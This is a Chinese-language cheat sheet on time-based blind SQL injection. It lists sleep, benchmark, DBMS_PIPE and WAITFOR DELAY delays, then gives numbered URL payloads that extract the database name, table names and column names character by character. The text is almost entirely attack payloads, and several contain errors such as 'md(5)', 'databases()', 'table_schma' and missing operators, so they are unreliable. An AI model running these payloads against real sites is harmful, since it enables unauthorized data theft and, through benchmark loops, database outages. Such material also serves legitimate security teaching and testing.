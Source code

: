 在页面上无论正确与否，都没有任何提示的情况下：
sql语句延迟多少秒，网站响应就延迟多少秒，证明存在sql注入。

mysql关键词
判断：if
延时：sleep(5) ，select SLEEP(5);
执行次数过多延迟：benchmark(1000000,md(5)) 。benchmark(200000000,7^3^8)
注意不能过多可能造成数据库拒接服务，宕机。

oracle时间盲注函数：DBMS_PIPE.RECEIVE_MESSAGE 。dbms_pipe.receive_message

sqlserver时间盲注函数：WAITFOR DELAY   。waitfor delay
```
sqlserver
?a=1 WAITFOR DELAY '0:0:3'
?a=1%20WAITFOR%20DELAY%20'0:0:3'
```

^
基于时间的盲注，常和布尔结合起来用
```
' and if(length(database())=8,sleep(3),null) --+ //正确的话就执行sleep
' and if(length(database())=8,1,sleep(3)) --+ //正确的话就不执行sleep
'or if(length(database())=8,sleep(3),null) or '1'='1
```

## 1、判断闭合方式

```
?id=1' sleep(5) --+

语句：
?id=1' and sleep(5)-- -  //正常休眠
?id=1" and sleep(5)-- -  //无休眠
?id=1') and sleep(5)-- - //无休眠
?id=1") and sleep(5)-- - //无休眠
总结：由此可以判断注入点为数值型注入点 包裹符号为'号
```

## []()2、判断数据库的长度

```
?id=1' if(length(database())>8,1,sleep(5)) --+
```

## []()3、判断数据库的第一个字符

```
?id=1' if(ascii(substr(database() ,1,1))>110,1,sleep(5)) --+
```

## []()4、判断表的数量

```
?id=1' if(select length(table_name) from information_schema.tables where table_schema=database())>4,1,sleep(5)) --+
```

## []()5、判断第一个表的名称

```
?id=1’ if((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)>100,1,sleep(5)) --+
```

## []()6、获取字段的数量

```
?id=1' if((select length(column_name) from information_schema.columns where table_schema=databases() and table_name='表名' limit 0,1)>5,1,sleep(5)) --+
```

## []()7、获取第一个字段的名

```
?id=1' if((select ascii(substr(column_name,1,1)) from information_schema.columns where table_schma=database() and table_name='表名' limit 0,1)>100,1,sleep(5)) --+
```


